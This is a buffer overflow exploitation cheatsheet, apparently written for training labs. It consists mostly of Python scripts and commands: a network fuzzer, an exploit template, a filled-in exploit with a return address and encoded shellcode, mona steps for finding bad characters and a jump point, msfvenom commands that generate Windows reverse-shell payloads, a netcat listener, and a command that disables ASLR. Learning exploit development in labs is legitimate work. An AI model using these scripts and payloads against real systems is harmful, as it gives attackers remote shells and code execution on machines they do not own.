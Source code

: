 # BOF Cheatsheet

### fuzzer.py

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "MACHINE_IP"

port = 1337
timeout = 5
prefix = "OVERFLOW1 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

### exploit.py

<pre class="language-python"><code class="lang-python">#!/usr/bin/env python3

<strong>import socket
</strong>
ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
</code></pre>

### exploit\_bytes.py

```python
offset = 1308
overflow = "A" * offset
retn = "\xba\x11\x80\x14"
padding = "\x90" * 16
payload="\x29\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e\x5f\x35\xae\x3d\x83\xee\xfc\xe2\xf4 \xa3\xdd\x2c\x3d\x5f\x35\xce\xb4\xba\x04\x6e\x59\xd4\x65\x9e\xb6\x0d\x39\x25\x6f\x4b\xbe\xdc\x15\x50\x82\ xe4\x1b\x6e\xca\x02\x01\x3e\x49\xac\x11\x7f\xf4\x61\x30\x5e\xf2\x4c\xcf\x0d\x62\x25\x6f\x4f\xbe\xe4\x01\x d4\x79\xbf\x45\xbc\x7d\xaf\xec\x0e\xbe\xf7\x1d\x5e\xe6\x25\x74\x47\xd6\x94\x74\xd4\x01\x25\x3c\x89\x04\x5 1\x91\x9e\xfa\xa3\x3c\x98\x0d\x4e\x48\xa9\x36\xd3\xc5\x64\x48\x8a\x48\xbb\x6d\x25\x65\x7b\x34\x7d\x5b\xd4 \x39\xe5\xb6\x07\x29\xaf\xee\xd4\x31\x25\x3c\x8f\xbc\xea\x19\x7b\x6e\xf5\x5c\x06\x6f\xff\xc2\xbf\x6a\xf1\ x67\xd4\x27\x45\xb0\x02\x5d\x9d\x0f\x5f\x35\xc6\x4a\x2c\x07\xf1\x69\x37\x79\xd9\x1b\x58\xca\x7b\x85\xcf\x 34\xae\x3d\x76\xf1\xfa\x6d\x37\x1c\x2e\x56\x5f\xca\x7b\x6d\x0f\x65\xfe\x7d\x0f\x75\xfe\x55\xb5\x3a\x71\xd d\xa0\xe0\x39\x57\x5a\x5d\x6e\x95\x28\xb0\xc6\x3f\x5f\x34\x15\xb4\xb9\x5f\xbe\x6b\x08\x5d\x37\x98\x2b\x54 \x51\xe8\xda\xf5\xda\x31\xa0\x7b\xa6\x48\xb3\x5d\x5e\x88\xfd\x63\x51\xe8\x37\x56\xc3\x59\x5f\xbc\x4d\x6a\ x08\x62\x9f\xcb\x35\x27\xf7\x6b\xbd\xc8\xc8\xfa\x1b\x11\x92\x3c\x5e\xb8\xea\x19\x4f\xf3\xae\x79\x0b\x65\x f8\x6b\x09\x73\xf8\x73\x09\x63\xfd\x6b\x37\x4c\x62\x02\xd9\xca\x7b\xb4\xbf\x7b\xf8\x7b\xa0\x05\xc6\x35\xd 8\x28\xce\xc2\x8a\x8e\x5e\x88\xfd\x63\xc6\x9b\xca\x88\x33\xc2\x8a\x09\xa8\x41\x55\xb5\x55\xdd\x2a\x30\x15\x7a\x4c\x47\xc1\x57\x5f\x66\x51\xe8"
buffer = overflow + retn + padding + payload
with open("exploit_bytes.txt","wb") as f:
    f.write(bytes(buffer + "\n", "latin-1"))

```

### \x01 to \xff

```
\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```

### 1. Pattern Create

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 800
```

### 2. Finding offset where EIP overwrite happens

```bash
msf-pattern_offset -l 800 -q 42306142
```

{% hint style="info" %}
-l: the length of the original pattern&#x20;

-q: specify the bytes found in EIP
{% endhint %}

### 3. Find bad chars&#x20;

#### Manual method:

```python
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
```

```bash
python2 -c "print ''.join([chr(i) for i in range(1,256)])" > exploit.txt
```

{% hint style="info" %}
Above script will generate exploit.txt that contains the raw bytes from \x01 to \xff (By default \x00 is bad char)

Use `bvi` to edit the raw hex bytes!
{% endhint %}

* Overflow the buffer to gain control of EIP register and append the entire \x01 to \xff bytearray to the shellcode.
* Use Immunity Debugger to run the program --> click on ESP register --> `Follow in Dump`
* Check the stack values against the original bytearray to figure out the bad characters.
* After finding a bad char, note it down and remove it from the bytearray shellcode and repeat the process again until the \xff appears.

#### Mona method:

```
!mona config -set workingfolder c:\Users\admin\Desktop
```

```
!mona bytearray -b "\x00"
```

```
!mona compare -f c:\Users\admin\Desktop\bytearray.bin -a <ESP addr>
```

{% hint style="info" %}
After finding a bad char, remove it and send the remaining payload again. Find the bad chars one by one (since bad chars may affect the chars adjacent to it).
{% endhint %}

### 4. Finding a jump point

```bash
!mona jmp -r esp -cpb "\x00\x0a"
```

{% hint style="info" %}
Update the -cpb option with all the badchars you identified (including \x00)
{% endhint %}

* Choose an address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.

### 5. Generate payloads

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f c
```

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

{% hint style="info" %}
* -f c: To select C-formatted shellcode
* -e x86/shikata\_ga\_nai: use of the polymorphic encode shikata\_ga\_nai (It can’t be helped)
* -b “\x00\x0a..”: specifies the bad chars
{% endhint %}

{% hint style="info" %}
* For linux --> -p linux/x86/shell\_reverse\_tcp
{% endhint %}

### 6. Prepend NOPs

```
padding = "\x90" * 16
```

{% hint style="info" %}
Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself.
{% endhint %}

### 7. Obtain shell

```
netcat -lvp 4444
```

### Troubleshooting

Some bad chars only appear when they are adjacent to certain chars. Hence, it is wise to check the hex values of the created shellcode against the values present in the stack (ESP --> Follow Dump)

#### To check hex values of created shellcode

```bash
xxd -g 1 -c 8 exploit_bytes.txt
```

{% hint style="info" %}
-g: number of octets per group

-c: format octets per line
{% endhint %}

#### Find Function Address

```bash
objdump -D execution-flow-windows.exe | grep <func_name>
```

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Need to convert the address to little endian format (00401530 --> \x30\x15\x40\x00)
{% endhint %}

#### Disable ASLR for Linux

```bash
echo 0 | tee /proc/sys/kernel/randomize_va_space
```

